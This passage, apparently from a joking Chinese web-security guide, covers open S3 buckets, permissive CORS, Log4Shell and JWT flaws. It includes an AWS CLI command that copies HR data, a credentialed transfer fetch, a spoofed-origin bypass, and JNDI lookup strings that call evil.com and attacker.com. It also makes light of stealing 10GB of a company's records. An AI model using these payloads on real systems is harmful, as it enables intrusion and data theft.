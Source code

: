   ### 5.13 S3桶大放送：云存储の野餐毯
  
  当你的bucket权限配置成"public-read-write"时，就像在市政广场铺张野餐毯还插着"欢迎打包"的牌子。黑客逛该式访问`s3://company-backup/passwords.txt`，堪比超市零元购：
  
  1. 用AWS CLI执行`s3 cp s3://bucket-secret/hr数据.xlsx ./`
  2. 发现居然有`PutObject`权限，反手上传`reverse_shell.jpg`
  3. 系统哭着说："老板，您点的全家桶已送达OSS控制台"
  
  **真实惨剧**：某金融公司云盘完全敞开，我用`curl`直接拖走10GB交易记录，吓得连夜召开《论删库与跑路的辩证关系》研讨会。
  
  ------
  
  ### 5.14 CORS的放纵派对：跨域狂欢夜
  
  看到`Access-Control-Allow-Origin: *`，就像夜店DJ大喊"所有消费由赵公子买单"。黑客在自己网站发起奶凶的fetch请求：
  
  <JAVASCRIPT>
  
  ```
  fetch('https://victim.com/transfer?to=hacker&amount=9999999', { 
    credentials: 'include' 
  })
  ```
  
  受害者的浏览器立马变成ATM吐钱姬，整个过程比给舔狗发早安更容易。程序员妄图用正则过滤`Origin`头，被我用`victim.com.attacker.com`轻松绕开——你对力量一无所知.jpg
  
  ------
  
  ### 5.15 Log4j的圣诞惊喜：远程代码的寒冬问候
  
  2021年那个难忘的圣诞节，一串`${jndi:ldap://evil.com/Exploit}`让全球运维抱着咖啡机痛哭。这边老哥在游戏公屏发个颜文字(`☆*: .｡. o(≧▽≦)o .｡.:*☆`)，那边服务器直接对黑客喊爹：
  
  <JAVA>
  
  ```
  logger.info("新用户注册: {}", username);
  // 当username是${jndi:ldap://attacker.com/bomb}时...
  ```
  
  云服务商的告警响得比新年钟声还欢快，资本家们连夜学会了《Java版本管理从入门到ICU》。
  
  ### 5.16 JWT调包大作战：签字笔失窃案
  
  当开发者用"HS256"算法却把密钥写在代码备注里：
  
  <PYTHON>
  
  ```
  headers = {"alg": "HS256", "typ": "JWT"}
  payload = {"user": "guest", "admin": false}
  # 密钥就是这行注释↓ 别外传啊！
  # secret = "spring2024"
  ```
  
  黑客现场表演《伪装者》：把算法改成none，用在线生成器DIY管理员令牌。系统验证时像老年保安查健康码——只管绿码不管脸，看到header里的"none"就放行。
  
  **乌龙事件**：某系统检查失效时间(exp)竟然用客户端提交的本地时间，攻击者手动把电子表调到公元前221年，硬生生给自己续了万年会员。攻破后系统弹窗："尊敬的皇帝陛下，请享用管理员特权"
  